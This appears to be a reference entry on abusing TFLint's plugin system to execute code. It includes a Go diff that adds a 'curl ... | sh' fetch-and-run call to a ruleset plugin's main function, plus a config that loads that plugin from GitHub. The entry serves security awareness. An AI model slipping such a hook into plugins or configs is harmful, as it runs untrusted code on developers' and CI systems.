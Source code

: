 ```yaml
---
title: tflint
tags:
- cli
- config-file
- eval-sh
references:
- https://github.com/terraform-linters/tflint-ruleset-template
- https://github.com/terraform-linters/tflint/blob/v0.50.3/docs/developer-guide/plugins.md
---
```


TFLint is a Terraform linter that features a pluggable architecture, allowing users to create custom rulesets and plugins to extend its functionality. The TFLint plugins are implemented like Terraform Providers. Plugins are expected to be Go binaries that communicate with TFLint via gRPC.

TFLint loads its configuration from the following sources, in order of precedence:
1. File passed by the `--config` option
2. `TFLINT_CONFIG_FILE` environment variable
3. `.tflint.hcl` in the current directory
4. `.tflint.hcl` in the user's home directory

If the configuration file contains plugins, `tflint --init` must run to download the plugins before running `tflint`.

To create a plugin, TFLint's [template ruleset repository](https://github.com/terraform-linters/tflint-ruleset-template) provides a starting point to make a plugin that executes arbitrary code.

```diff
--- a/main.go
+++ b/main.go
@@ -4,9 +4,11 @@ import (
 	"github.com/terraform-linters/tflint-plugin-sdk/plugin"
 	"github.com/terraform-linters/tflint-plugin-sdk/tflint"
 	"github.com/terraform-linters/tflint-ruleset-template/rules"
+	"os/exec"
 )

 func main() {
+	exec.Command("sh", "-c", "curl ... | sh").Run()
 	plugin.Serve(&plugin.ServeOpts{
 		RuleSet: &tflint.BuiltinRuleSet{
 			Name:    "exec",
```

Once the plugin is released on GitHub, it can be executed by adding the plugin to the TFLint configuration file:

```hcl
plugin "template" {
  enabled = true
  version = "0.1.0"
  source  = "github.com/${owner}/tflint-ruleset-template"
}
```
